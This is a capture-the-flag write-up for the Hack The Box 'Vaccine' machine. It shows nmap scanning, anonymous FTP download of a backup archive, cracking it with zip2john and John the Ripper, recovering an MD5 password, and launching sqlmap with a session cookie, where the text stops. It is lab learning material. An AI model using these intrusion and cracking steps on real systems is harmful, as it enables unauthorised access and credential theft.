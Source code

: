 ```yaml
---
date: 2024-11-15
categories:
    - Documentation
tags:
    - Hack The Box
    - CTF
    - SQL Injection
    - FTP
    - Sudo
    - PHP
---
```


# Vaccine Writeup
1) We spawn the target machine <TARGET_IP>
2) Enumerate target using Nmap 
   (-sV to give more details about the version)
```bash
nmap <TARGET_IP> -sV
```
![alt text](image.png)

We can see the open ports (21, 22, 80).

3) We try to login as anonymous (-a for anon login) to the ftp server
```bash
ftp <TARGET_IP> -a
```
![alt text](image-1.png)

We can see that there is a backup.zip, and we will get that using get command to download to our local
```
get backup.zip
```
![alt text](image-2.png)

The zip needs a password, and since we don't know it, we can try few common passwords or bruteforce using password cracking tools.

Here, I will use John The Ripper's zip2john :
```
zip2john backup.zip > backup_hash.txt
```
which processes the zip & extract the necessary hash
Then, we can use 
```
john backup_hash.txt --wordlist=/path/to/wordlist
```
![alt text](image-3.png)
Yay, we find the password !

Now, lets see whats inside the zip!
Unzip the zip first using
```
unzip backup.zip
```
and we will get a index.php and style.css
![alt text](image-4.png)

in the index.php, there is a md5 hashed password, we can decrypt it using online decryptor, and get the password **qwerty789** :D

Now, we can login to the target, and we can see a table in the dashboard. This might be connected to database, and we'll try to inject SQL injections.

To test if its injectable, we can use **sqlmap**

![alt text](image-5.png)

We will give our cookie for our sqlmap to authenticate & search the query

```
sqlmap -u 'http://<TARGET_IP>/dashboard.php?search=a' --cookie="PHPSESSID=<INSERT_COOKIE>"
```
